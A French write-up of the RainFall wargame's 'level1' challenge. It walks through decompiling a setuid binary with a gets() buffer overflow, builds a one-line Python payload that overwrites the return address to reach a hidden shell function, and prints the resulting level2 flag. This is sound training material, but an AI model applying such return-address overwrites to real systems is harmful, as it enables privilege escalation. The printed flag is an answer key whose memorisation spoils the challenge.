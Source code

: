 # `Level1`

## Introduction

Nous avons un exécutable `level1` avec les droits de l'utilisateur `flag1` et du groupe `level1`.

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
level1@RainFall:~$
```

Ce programme nous aidera à obtenir le flag.

## Étapes d'exploitation

### 1. Analyse du programme

Lorsque l'on exécute le programme, il demande une entrée stdin. Peu importe ce que nous entrons, rien ne se passe. En décompilant le programme, voici ce que fait la fonction `main` :

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

La fonction `main` utilise `gets` pour lire l'entrée utilisateur dans un buffer de 76 octets, permettant ainsi un débordement de tampon.

### 2. Fonction `run`

Nous observons également une fonction `run` qui est appelée pour ouvrir un shell. Nous allons exploiter cette fonction.

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh);
  return;
}
```

### 3. Exploitation du débordement de tampon

Nous allons provoquer un débordement pour écraser l'adresse de retour de la fonction `main` avec l'adresse de la fonction `run`.

### 4. Vérification de l'architecture CPU

Nous vérifions l'architecture du CPU pour déterminer comment les adresses sont stockées.

```bash
level1@RainFall:~$ lscpu
Architecture:          i686
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                1
On-line CPU(s) list:   0
Thread(s) per core:    1
Core(s) per socket:    1
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            6
Model:                 186
Stepping:              2
CPU MHz:               2611.200
BogoMIPS:              5222.40
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             48K
L1i cache:             32K
L2 cache:              1280K
L3 cache:              18432K
```

Le byte order est en little endian, donc nous devons inverser l'adresse que nous allons envoyer en Python pour la fonction `run`.

### 5. Génération et envoi du payload

Nous utilisons Python pour générer le payload et l'envoyer au programme `level1` :

```bash
(python -c "print('A' * 76 + '\x44\x84\x04\x08')"; cat -) | ./level1
```

Cela lancera la fonction `run` et ouvrira un shell car :

```c
void run(void)
{
  fwrite("Good... Wait what?\n", 1, 0x13, stdout);
  system("/bin/sh);
  return;
}
```

### 6. Vérification et extraction du flag

Une fois dans le shell, nous vérifions les droits de l'utilisateur :

```bash
-- id --
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)

-- whoami --
level2
```

Nous avons donc les droits de `level2` et nous pouvons lire le flag :

```bash
-- cat /home/user/level2/.pass --
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

### Conclusion

Nous avons exploité le débordement de tampon dans le programme `level1` pour obtenir un shell avec les droits de `level2`, ce qui nous permet de lire le flag.

---

Bravo ! Vous avez réussi à exploiter la vulnérabilité et à obtenir le flag !